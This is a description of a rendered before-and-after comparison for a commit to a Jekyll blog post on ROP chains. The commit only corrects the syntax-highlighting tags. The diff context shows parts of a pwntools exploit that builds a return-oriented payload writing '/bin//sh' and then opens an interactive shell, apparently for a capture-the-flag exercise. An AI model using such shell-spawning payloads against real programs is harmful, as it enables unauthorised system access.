

Before and after one commit to Delt-A/delt-a.github.io, a Jekyll site: the page built from _posts/2019-07-07-rop-chain.md, in a window 1280 px wide and 1150 px high. Shown: the top 1137 px of the window at 91% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
Update 2019-07-07-rop-chain.md

```diff
--- a/_posts/2019-07-07-rop-chain.md
+++ b/_posts/2019-07-07-rop-chain.md
@@ -4,7 +4,7 @@ published: true
 title: ROP chain
 ---
 
-{ % highlight lineos python %}
+{% highlight python lineos %}
 #Completed
 from pwn import *
 
@@ -23,4 +23,4 @@ payload = padding + p64(pop_r14_r15) + p64(data_addr) + '/bin//sh' + p64(usefulG
 
 p.sendline(payload)
 p.interactive()
-{ % endhighlight %}
+{% endhighlight %}
```
